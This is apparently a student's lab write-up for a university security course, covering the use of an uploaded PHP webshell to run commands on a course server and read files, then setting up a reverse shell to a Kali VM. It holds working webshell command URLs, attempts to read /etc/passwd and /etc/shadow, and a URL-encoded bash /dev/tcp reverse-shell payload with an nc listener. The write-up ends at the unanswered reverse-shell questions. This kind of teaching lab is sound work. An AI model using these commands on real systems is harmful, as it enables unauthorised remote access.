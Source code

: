 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## FIRST REVERSE SHELL ##

### Part 1: Installing a PHP webshell ###

a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

>  *To execute the whoami command on the server, I accessed the path to my uploaded web shell file in the URL and included ***?command=whoami****, so my URL looks like this: 
 http://danger.jeffondich.com/uploadedimages/muhozal-webshell1.php?command=whoami
>
>  *The uploaded PHP code then checks if a command parameter is provided in the URL and executes that specified command through the system function, thus allowing remote code execution.
The resulting output is the name of the user under which the web server is running, in this case www-data.*


b. What is this webshell's ```<pre>``` tag for? (And more to the point, what happens if you leave it out?)

> *The ```<pre>``` tag ensures that the output from the system function is displayed in a well-structured and readable way. Leaving out the tag would result into a messy output since HTML would ignore whitespace and line breaks thus making elements like lists of files or directories harder to read.*

*****
### Part 2: Looking around ###

a. What directory is danger's website located in?

> *Using the **pwd** command, the directory in which danger's website is located in is: **/var/www/danger.jeffondich.com***

b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

> *Using ```command=ls /home```, I was able to find the two main user directories on danger.jeffondich.com in the home directory. These user accounts are **bullwinkle** and **jeff***

c. Do you have access to the file /etc/passwd? What's in it?

> *I attempted to access ```/etc/passwd``` using ```cat /etc/passwd``` but encountered a site error, suggesting that direct access to the file is restricted.*

d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look onliine for the answer to that second question, since the answer to the first is no.)

> *No, I do not have access to ```/etc/shadow```.*
>
> *This file stores encrypted user passwords and other information about user accounts. Each entry typically includes fields like the username, hashed password, last password change, and password expiration policies.*

e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

> *I found a moose using ```command=cat /home/jeff/supersecret.txt```*

f. [Optional] Report on anything else interesting you discover.

> *I was frustrated but eventually found it helpful that the ```cd``` command does not work in web shell.*
> 
> *I learned that when I send a command via a PHP web shell, it’s executed in a new, isolated shell session every time. Any directory changes made with cd exist only in that temporary shell, which closes immediately after the command runs. This allows me to explore diffent directories without needing ```cd```.*

****
### Part 3: Setup for part 4 ###
****

### Part 4: Launching a reverse shell ###

a. What is the IP address of your Kali VM (the target machine)? How did you find out?

> *The IP address of my Kali VM in 192.168.64.2. I found it by running the `ip a` command in my Kali terminal and inspecting the eth0 interface section*

b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

> *I was able to obtain the IP address of my macOS by running the `ifconfig | grep inet` command in my terminal. Here is the list of present IP addressed:*
>
>```
>	inet 127.0.0.1 netmask 0xff000000
>	inet6 ::1 prefixlen 128 
>	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1 
>	inet6 fe80::a494:37ff:fecf:e5d5%ap1 prefixlen 64 scopeid 0xb 
>	inet6 fe80::1c5b:29b2:d71e:3487%en0 prefixlen 64 secured scopeid 0xc 
>	inet 10.133.0.214 netmask 0xffffe000 broadcast 10.133.31.255
>	inet6 fe80::4c06:6dff:fe19:7ce2%awdl0 prefixlen 64 scopeid 0xd 
>	inet6 fe80::4c06:6dff:fe19:7ce2%llw0 prefixlen 64 scopeid 0xe 
>	inet6 fe80::a05f:d8e8:8da2:d878%utun0 prefixlen 64 scopeid 0xf 
>	inet6 fe80::d48b:7e2a:ed1d:51fa%utun1 prefixlen 64 scopeid 0x10 
>	inet6 fe80::9b38:4747:3b6c:256d%utun2 prefixlen 64 scopeid 0x11 
>	inet6 fe80::ce81:b1c:bd2c:69e%utun3 prefixlen 64 scopeid 0x12 
>	inet6 fe80::4942:7591:c656:402e%utun4 prefixlen 64 scopeid 0x13 
>	inet6 fe80::7001:54e0:1851:ca5d%utun5 prefixlen 64 scopeid 0x14 
>	inet6 fe80::4a03:9414:840e:86b2%utun6 prefixlen 64 scopeid 0x17 
>	inet6 fe80::6905:89f9:1401:c108%utun7 prefixlen 64 scopeid 0x18 
>	inet 192.168.64.1 netmask 0xffffff00 broadcast 192.168.64.255
>	inet6 fe80::8494:37ff:fefc:8b64%bridge100 prefixlen 64 scopeid 0x16 
>	inet6 fd6a:c3ab:6dda:5cc4:1c66:5278:ac7d:564 prefixlen 64 autoconf secured 
>```
> *The **IP 192.168.64.1** should be used to communicate with Kali, given that my Kali VM has the **IP address 192.168.64.2**. This makes both machines part of the same local network, allowing for direct communication.*

c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT


In a browser on your host machine, use your web shell to go to this crazy URL.
http://KALI_IP/YOUR_WEBSHELL.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT%200%3E%261%22
            Note that "YOUR_WEBSHELL" should of course be replaced
            by the name of your web shell you installed in the Apache2 home directory on
            Kali during Part 3.
            
Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?
What are all those % codes in the URL you used?
Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.
